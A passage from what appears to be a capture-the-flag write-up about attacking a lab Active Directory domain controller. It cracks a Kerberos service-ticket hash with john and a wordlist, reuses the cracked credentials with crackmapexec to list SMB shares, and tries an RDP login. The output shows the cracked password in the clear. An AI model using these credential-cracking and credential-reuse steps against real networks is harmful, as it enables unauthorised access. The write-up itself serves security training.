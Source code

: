 password-reset user has an SPN set with the corresponding TGT, we can crack it with the following command:
```bash
echo "<password-reset hash>" > hash

john hash -w=/usr/share/wordlists/rockyou.txt
```

We have another creds, we can use it to enumerate shares:
```bash
crackmapexec smb 10.10.94.232  -u 'password-reset' -p 'REDACTED' --shares      
SMB         10.10.94.232    445    DC               [*] Windows 10.0 Build 17763 x64 (name:DC) (domain:COOCTUS.CORP) (signing:True) (SMBv1:False)
SMB         10.10.94.232    445    DC               [+] COOCTUS.CORP\password-reset:resetpassword 
SMB         10.10.94.232    445    DC               [+] Enumerated shares
SMB         10.10.94.232    445    DC               Share           Permissions     Remark
SMB         10.10.94.232    445    DC               -----           -----------     ------
SMB         10.10.94.232    445    DC               ADMIN$                          Remote Admin
SMB         10.10.94.232    445    DC               C$                              Default share
SMB         10.10.94.232    445    DC               Home                            
SMB         10.10.94.232    445    DC               IPC$            READ            Remote IPC
SMB         10.10.94.232    445    DC               NETLOGON        READ            Logon server share 
SMB         10.10.94.232    445    DC               SYSVOL          READ            Logon server share
```
Also this time there isn't nothing to see, several hours I was stuck looking around when I tried to use RDP with password-reset user and I wrong insert the password with the following results:
```bash
rdesktop -f -u password-reset -p REDACTED 10.10.94.232
```
![rdp](./pics/rdp.png)
